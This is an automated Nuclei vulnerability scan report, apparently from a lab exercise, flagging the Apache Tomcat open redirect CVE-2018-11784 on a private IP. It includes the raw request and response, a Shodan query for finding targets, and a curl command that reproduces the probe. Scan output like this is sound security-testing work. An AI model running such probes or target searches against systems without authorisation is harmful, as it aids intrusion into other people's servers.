 ### Apache Tomcat - Open Redirect (CVE-2018-11784) found on http://10.200.96.200/

----
**Details**: **CVE-2018-11784** matched at http://10.200.96.200/

**Protocol**: HTTP

**Full URL**: http://10.200.96.200//interact.sh

**Timestamp**: Tue Aug 22 11:44:28 +0100 BST 2023

**Template Information**

| Key | Value |
| --- | --- |
| Name | Apache Tomcat - Open Redirect |
| Authors | geeknik |
| Tags | packetstorm, tomcat, redirect, cve, cve2018, apache |
| Severity | medium |
| Description | Apache Tomcat versions prior to 9.0.12, 8.5.34, and 7.0.91 are prone to an open-redirection vulnerability because it fails to properly sanitize user-supplied input.<br> |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N) |
| CWE-ID | [CWE-601](https://cwe.mitre.org/data/definitions/601.html) |
| CVE-ID | [CVE-2018-11784](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2018-11784) |
| CVSS-Score | 4.30 |
| shodan-query | title:"Apache Tomcat" |
| vendor | apache |
| product | tomcat |

**Request**
```http
GET //interact.sh HTTP/1.1
Host: 10.200.96.200
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.1 302 Found
Connection: close
Content-Length: 219
Content-Type: text/html; charset=iso-8859-1
Date: Tue, 22 Aug 2023 10:44:24 GMT
Location: https://thomaswreath.thminteract.sh
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1c

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>302 Found</title>
</head><body>
<h1>Found</h1>
<p>The document has moved <a href="https://thomaswreath.thminteract.sh">here</a>.</p>
</body></html>

```

References: 
- https://lists.apache.org/thread.html/23134c9b5a23892a205dc140cdd8c9c0add233600f76b313dda6bd75@%3cannounce.tomcat.apache.org%3e
- https://nvd.nist.gov/vuln/detail/cve-2018-11784
- http://lists.opensuse.org/opensuse-security-announce/2019-06/msg00030.html
- http://lists.opensuse.org/opensuse-security-announce/2019-07/msg00056.html
- http://packetstormsecurity.com/files/163456/apache-tomcat-9.0.0m1-open-redirect.html

**CURL command**
```sh
curl -X 'GET' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2049.0 Safari/537.36' 'http://10.200.96.200//interact.sh'
```

----

Generated by [Nuclei v2.9.11](https://github.com/projectdiscovery/nuclei)